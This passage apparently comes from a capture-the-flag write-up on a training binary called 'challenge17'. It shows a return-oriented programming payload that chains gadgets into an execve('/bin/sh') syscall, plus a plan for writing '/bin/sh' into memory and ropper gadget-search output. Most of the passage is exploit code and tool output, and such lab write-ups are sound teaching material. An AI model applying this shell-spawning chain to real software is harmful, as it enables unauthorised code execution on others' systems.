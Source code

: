 ```
payload += p64 ( syscall )


# execve
payload += p64 ( pop_rdi )
payload += p64 ( sh_addr )
payload += p64 ( pop_rsi_r15 )
payload += p64 ( 0x6020e0 )
payload += p64 ( 0xdeadbeef4 )
payload += p64 ( pop_rax)
payload += p64 ( 59 )
payload += p64 ( syscall )

payload += p64 ( 0x41414141 )
payload += p64 ( 0x42424242 )
```



# Advanced version

## Writing "/bin/sh"

We can use the following Read-Write segment:
```
0x00602000         0x00603000         rw-p	/root/challenges/challenge17/challenge17
```

A write4() can look like this:
```
pop rax; ret    # value to write
pop rdx; ret    # memory location where we want to write the value
mov ptr [rdx], rax; ret
```

## ROP Gadgets

Search for the following rop gadgets:
- pop rax
- mov dword ...
- and based on the previous one: pop rbp


```
root@hlUbuntu64:~/challenges/challenge17# ropper --file challenge17 --search  "pop rax"
[INFO] Load gadgets from cache
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rax

[INFO] File: challenge17
0x0000000000400c91: pop rax; ret;

root@hlUbuntu64:~/challenges/challenge17# ropper --file challenge17 --search  "mov dword"
[INFO] Load gadgets from cache
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: challenge17
0x0000000000400c8e: mov dword ptr [rbp - 8], eax; pop rax; ret;

root@hlUbuntu64:~/challenges/challenge17# ropper --file challenge17 --search "pop rbp"
[...]
0x00000000004009a0: pop rbp; ret;
```
